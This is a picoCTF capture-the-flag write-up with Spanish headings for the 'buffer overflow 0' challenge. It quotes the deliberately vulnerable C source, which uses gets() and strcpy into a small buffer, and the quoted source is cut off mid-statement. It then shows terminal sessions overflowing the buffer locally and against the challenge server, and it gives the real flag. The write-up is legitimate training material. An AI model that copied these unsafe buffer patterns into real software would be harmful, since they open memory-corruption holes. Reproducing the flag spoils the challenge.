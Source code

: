 ## Description

Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/174/vuln). You can view source [here](https://artifacts.picoctf.net/c/174/vuln.c).Connect using:`nc saturn.picoctf.net 49920`
#### Hints
- How can you trigger the flag to print?
- If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
- Run `man gets` and read the BUGS section. How many characters can the program really read?
## Solución

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf
```

```shell
┌──(kali㉿kali)-[~/…/categorias/Binary_Explotation/parte_01/buffer_overflow_0]
└─$ ./vuln       
Input: input
The program will exit now
                                                                                                            
┌──(kali㉿kali)-[~/…/categorias/Binary_Explotation/parte_01/buffer_overflow_0]
└─$ ./vuln
Input: sdtfgvysdafadsjlfhadslfhadsfadsfasdhjashjkhjkasadfhjsdfshudisfhasdf
picoCTF{dummie_tonta_flag}

                                                                                                            
┌──(kali㉿kali)-[~/…/categorias/Binary_Explotation/parte_01/buffer_overflow_0]
└─$ nc saturn.picoctf.net 49920
Input: fdsahfjikahfdasufhadsiuhfadshdskfjhdiosuafdjksfdsghuyfadsifadfs
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
                                           
```

## Bandera
```css
flag: picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```
## Notas Adicionales

## Referencias
- 